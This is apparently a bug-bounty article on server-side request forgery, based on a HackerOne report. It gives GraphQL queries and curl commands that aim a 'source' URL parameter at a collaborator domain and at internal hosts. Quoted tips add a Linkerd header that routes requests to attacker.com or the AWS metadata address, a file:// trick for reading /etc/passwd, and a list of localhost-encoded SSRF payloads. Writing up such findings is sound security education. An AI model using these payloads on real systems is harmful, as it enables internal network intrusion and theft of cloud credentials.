 ```yaml
---
description: 'Ref: https://hackerone.com/reports/1864188'
cover: ../../.gitbook/assets/Blue Pink Gradient Fashion Banner (1).png
coverY: 0
---
```


# 🤯 Understanding SSRF Vulnerabilities and Their Impact

## &#x20;:heavy\_multiplication\_x: [<mark style="color:red;">Twitter</mark>](https://twitter.com/Cipher0ps\_tech?t=MlqumIay8I49eWwhjgrotg\&s=09) :link: [<mark style="color:red;">Linkedin</mark>](https://www.linkedin.com/company/cipherops/) :tv: [<mark style="color:red;">Telegram</mark>](https://t.me/cipherops\_tech) :tada: <mark style="color:red;">I</mark>[<mark style="color:red;">nstagram</mark>](https://instagram.com/cipherops\_tech?igshid=MzNlNGNkZWQ4Mg==)



Server-Side Request Forgery (SSRF) is a critical security vulnerability that allows attackers to send unauthorized requests from the server to other internal or external resources. In this article, we will analyze some examples of SSRF queries and curl commands to better comprehend the severity of this issue.

#### SSRF Request with GraphQL Query Parameter

```json
query {
  allTicks(symbol:"TSLA", source:"https://[COLLABORATOR_DOMAIN]/") {
    symbol
    server
    source
    ask
    time
    bid
  }
}
```

```bash
curl -v "https://xxxx.xxx.com/" -H "Content-Type: application/json" --data '{"query":"query { allTicks(symbol:\"TSLA\", source:\"https://[COLLABORATOR_DOMAIN]/\"){ symbol server source ask time bid } }"}'
```

In this example, the GraphQL query contains a vulnerable parameter `source` that accepts a URL. An attacker can manipulate this URL to make the server send a request to their controlled domain, referred to as `[COLLABORATOR_DOMAIN]`, potentially leading to data leakage or unauthorized access.

#### SSRF Request with GET Parameters inside GraphQL JSON

```json
query {
  allTicks(symbol:"TSLA", source:"https://[COLLABORATOR_DOMAIN]/?do=something&") {
    symbol
    server
    source
    ask
    time
    bid
  }
}
```

```bash
curl -v "https://xxxx.xx.com/" -H "Content-Type: application/json" --data '{"query":"query { allTicks(symbol:\"TSLA\", source:\"https://[COLLABORATOR_DOMAIN]//?do=something&\"){ symbol server source ask time bid } }"}'
```

Here, the GraphQL query includes GET parameters in the URL. An attacker can exploit this by modifying the parameters and potentially impacting the behavior of the server, leading to various security risks.

#### SSRF Request to Internal Host

```json
query {
  allTicks(symbol:"TSLA", source:"https://█████/?") {
    symbol
    server
    source
    ask
    time
    bid
  }
}
```

```bash
curl -v "https://xxxx.xxx.com/" -H "Content-Type: application/json" --data '{"query":"query { allTicks(symbol:\"TSLA\", source:\"https://https://████/?\"){ symbol server source ask time bid } }"}'
```

```markdown
# A tip onn ssrf from Twitter
#bugbountytip Found Linkerd service (look for headers such as “Via: linkerd” or “l5d-*”)? Try SSRF by overriding dtab via request header, e.g. “l5d-dtab: /svc/* => /$/inet/attacker.com/80” to reach your server or “l5d-dtab: /svc/* => /$/inet/169.254.169.254/80” for AWS metadata.

#Bugbountytip Got a SSRF? no metadata endpoints to hit? Try https://kubernetes.default.svc/metrics if you get a load crap come back jackpot you've hit the kubernetes API and this should indicate it's shit the bed time for any security team. (url can change)

SSRF are ❤️

file:///etc/passwd : Not authorized
file://\/\/etc/passwd : Work 😀

#BugBounty

SSRF payloads
http://[::]:80/
http://[::]:25/ SMTP
http://[::]:22/ SSH
http://[::]:3128/
http://0000::1:80/
http://0000::1:25/ SMTP
http://0000::1:22/ SSH
http://0000::1:3128/ 
http://0177.0.0.1/
http://2130706433/ = http://127.0.0.1
http://3232235521/ http://192.168.0.1
localhost:+11211aaa
localhost:00011211aaaa
http://0/
http://127.1
http://127.0.1
HTTP
ssrf.php?url=http://127.0.0.1:22
ssrf.php?url=http://127.0.0.1:80
ssrf.php?url=http://127.0.0.1:443
#kongsec

If you have a blind SSRF that can only read images (but for some reason can't read ICO files), try and find Confluence running on the internal network and request /images/icons/linkext7.gif to prove that you can access internal resources

```

{% embed url="https://x.com/chybeta/status/1176165964196376576?s=20" %}

<img src="https://2207729183-files.gitbook.io/~/files/v0/b/gitbook-legacy-files/o/assets%2F-LbWrDBBrbM1WtGeIKRO%2F-MTAEQ3wRjUmCfcVCv3d%2F-MTAErI78RbCVBhg8jGj%2Fimage.png?alt=media&#x26;token=f90e59f3-c38b-48ea-b8b3-e7f1484bff66" alt="" data-size="original">



In this instance, the GraphQL query includes a modified URL with the placeholder `█████`, suggesting an attempt to perform an SSRF request to an internal host. If successful, this could expose sensitive information or services running on the internal network.

#### Conclusion

SSRF vulnerabilities are serious threats that require immediate attention from developers and security teams. To mitigate SSRF risks, it is essential to validate and sanitize user-provided URLs and limit access to sensitive internal resources.

Remember, proactive security measures and regular vulnerability assessments are crucial in maintaining a robust and secure web application. Stay vigilant, and always prioritize cybersecurity to protect both your users and your organization.

***
